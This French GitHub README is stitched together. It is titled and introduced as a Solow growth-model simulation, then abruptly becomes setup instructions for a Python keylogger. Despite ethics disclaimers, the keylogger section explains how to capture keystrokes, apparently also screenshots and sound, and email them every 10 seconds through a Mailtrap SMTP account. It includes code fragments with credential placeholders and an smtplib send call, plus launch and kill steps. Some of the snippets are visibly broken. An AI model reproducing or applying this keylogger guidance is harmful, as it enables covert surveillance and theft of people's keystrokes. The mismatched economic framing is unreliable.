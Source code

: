 # Economic_Model_Solow1
Solow model (1956)







***

Ce projet est consiste à effecuer une modélisation du modèle de croissance économique néoclassique. 
Basé sur le modèle de Solow (1956), cette simulation permet l'explication de la dynamique de la production en fonction du capital, du travail et du progrès technologique.

Il y a plusieurs options :

- Trajectoire de la croissance économique en fonction du capital et du travail.
- Effet d’une variation du taux d’épargne sur le niveau de production.
- Impact du progrès technologique sur la croissance à long terme.
- Analyse de la convergence entre pays (les pays pauvres rattrapent-ils les riches ?


L’équation de base du modèle de Solow est la suivante :


![information sur le mail](images/1.png)






Ce projet a ete realise a des fins academiques. L'utilisation de logiciels tels qu'un keylogger doit toujours respecter les lois et l ethique.

**Ne pas utiliser ce script a des fins d'enregistrement de frappes sur l'ordinateur d'autrui (ou sur le votre en ciblant un autre utilisateur) sans le consentement explicite de ce dernier.**

**Ne testez jamais un keylogger sur une machine ou vous n avez pas la permission explicite de le faire.**

**Veuillez utilisez ce script dans un environnement securise (par exemple, une machine virtuelle ou un ordinateur de test), controle et legalement acceptable.**

**Utilisez un compte SMTP dedie et ne partagez jamais vos informations personnelles.**




**Ce script permet d'enregistrer les frappes de clavier. Ces informations recueillies sont envoyees a une boite mail toutes les 10 secondes.**



*Etape 1 : Definir les identifiants SMTP*

Le protocole SMTP (Simple Mail Transfer Protocol) est utilise pour envoyer des e-mails.
Un moyen mnemotechnique de retenir sa definition est : SMTP <=> Send mail to people


La premiere etape va donc etre de creer un compte mail dedie a la reception des informations enregistrees avec le keylogger.

Nous avons fait le choix du systeme de messagerie "Mail trap". Apres avoir cree un compte avec des donnees jetables, nous devons configurer les identifiants SMTP dans le script.

Ouvrez le fichier qui se nomme "Keylogger.py" dans un editeur de texte comme VSCode ou Notepad++.

Cherchez les lignes o "SMTP_USERNAME" et "SMTP_PASSWORD" sont mentionnes.

Remplacez-les par vos propres informations :

Dans cette section, nous allons definir l'adresse mail ainsi que le mot de passe mail :

finally:
    EMAIL_ADDRESS = "xxxxxx" #Remplacer par le "username" de Mailtrap
    EMAIL_PASSWORD = "xxxxxx" #Remplacer par le "password" de Mailtrap

![information sur le mail](images/infos_mail.png)



Dans cette section, nous allons entrer le numero du port SMTP, nous permettant d'envoyer les informations enregistres vers la boite de reception.

m += message
	with smtplib.SMTP("sandbox.smtp.mailtrap.io", 25) as server: # Mettre le numero de port defini dans les instructions Mailtrap
        server.login(email, password)
        server.sendmail(sender, receiver, message)

Ainsi, le port numero 25 est defini. 

![information SMTP](images/smtp_screenshot.png)



*Etape 2 : Installer les dependances necessaires*

Depuis le terminal, on va lancer la commande pip install -r requirements.txt

Cette commande permet d'installer toutes les bibliotheques listees dans le fichier requirements.txt

Ce fichier contient les lignes suivantes :

pynput==1.7.3 : controler et surveiller le clavier et la souris
pyscreenshot==3.1 : prendre des captures d'ecran
sounddevice==0.4.3 : gerer l'enregistrement de sons
Pillow==9.3.0 : bibliotheque de traitement d'images



*Etape 3 : Executer le keylogger*

Toujours depuis le terminal, on lance le script depuis le fichier keylogger.py

On lance la commande python keylogger.py

Le script commence alors a enregistrer les frappes de claviers

Les donnees sont envoyees toutes les 10 secondes dans la boite de reception.




En cas d'erreur :

Il pourrait y avoir une probleme avec le paquet pyscreenshot lors de son installation

L'erreur pourrait par exemple liee a une incompatibilite entre la version de pyscreenshot demandee (0.5.1) et votre environnement Python

Pour resoudre ce probleme

Modifier la ligne pyscreenshot==0.5.1

par

pyscreenshot==[derniere version en vigueur]

A la date du 15/11/2024, la derniere version utilisee pour pyscreenshot est : 3.1

Si vous rencontrez encore des erreurs, ajustez les versions jusqu'a ce que toutes soient compatibles avec votre version de Python

Vous pourriez par exemple avoir des problemes d'incompatibilite entre votre version de Python et la version de Pillow



Correspondances pillow et python : site internet : https://pillow.readthedocs.io/en/stable/installation/python-support.html


![information Ssur les compatibilites entre pillow et python](images/correspondances_versions_pillow_python.png)


![information Ssur les compatibilites entre pillow et python](images/correspondances_versions_pillow_python1.png)


**Pour arreter le keylogger** :

Il fonctionne en arriere-plan comme un processus. Afin de l'arreter, entrer dans le terminal : Ctrl + C

Si cela ne fonctionne pas, entrer dans le terminal :

tasklist | findstr python

Cela permettra d'afficher tous les processus Python qui sont actifs. Il suffit ensuite d'identifier le PID associe au script.

**Pour l'arreter, entrer dans le terminal :**

taskkill /PID [PID du script] /F

Enfin, si le keylogger enregistre les frappes de clavier dans un fichier temporaire, supprimer ce fichier.
